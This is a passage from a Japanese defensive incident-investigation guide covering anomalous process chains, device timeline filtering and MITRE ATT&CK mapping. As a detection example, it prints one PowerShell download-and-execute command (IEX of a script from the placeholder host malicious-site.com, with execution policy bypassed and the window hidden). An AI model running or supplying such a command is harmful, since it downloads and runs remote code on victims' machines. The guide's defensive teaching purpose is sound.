 **異常なプロセス関係の検出**
- `explorer.exe` から直接 `powershell.exe` が起動（通常のユーザー操作では稀）
- `winword.exe` から `cmd.exe` が起動（文書アプリからコマンド実行は異常）
- システムプロセスから未知の実行ファイルが起動

**コマンドライン引数の分析**
各プロセスの起動パラメータから攻撃手法を特定：

悪意のあるコマンドライン例：
```powershell
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command "IEX(New-Object Net.WebClient).DownloadString('http://malicious-site.com/script.ps1')"
```

### 3.2 デバイスタイムライン調査

**時系列イベントの完全な把握**
最大6ヶ月間のデバイス上のすべてのアクティビティを時系列で確認

**効果的なフィルタリング戦略**
1. **実行前イベント**（-2時間）：ファイルの到着経路を特定
   - メール受信、ウェブダウンロード、USB接続
2. **実行時イベント**（±30分）：直接的な影響を把握
   - プロセス実行、ファイル作成、ネットワーク通信
3. **実行後イベント**（+24時間）：二次的な影響を調査
   - 追加ファイルのダウンロード、横展開の試行

**重要なイベントタイプ**
- **ファイルイベント**：作成、変更、削除、実行
- **ネットワークイベント**：外部通信、内部横展開
- **レジストリイベント**：設定変更、永続化
- **認証イベント**：ログイン試行、権限昇格

### 3.3 MITRE ATT&CK フレームワークマッピング

検出されたイベントを標準的な攻撃手法に分類：

**主要な戦術（Tactics）と技術（Techniques）**

**初期アクセス（TA0001）**
- T1566.001: スピアフィッシング（添付ファイル）
- T1566.002: スピアフィッシング（リンク）
- T1091: リムーバブルメディア

**実行（TA0002）**
- T1059.001: PowerShell
- T1059.003: Windows Command Shell
- T1204.002: 悪意のあるファイル

**永続化（TA0003）**
- T1547.001: レジストリ Run キー
- T1053.005: スケジュールタスク
- T1547.009: ショートカット変更

**防御回避（TA0005）**
- T1055: プロセスインジェクション
- T1027: 難読化されたファイル
- T1070.001: インジケーター除去
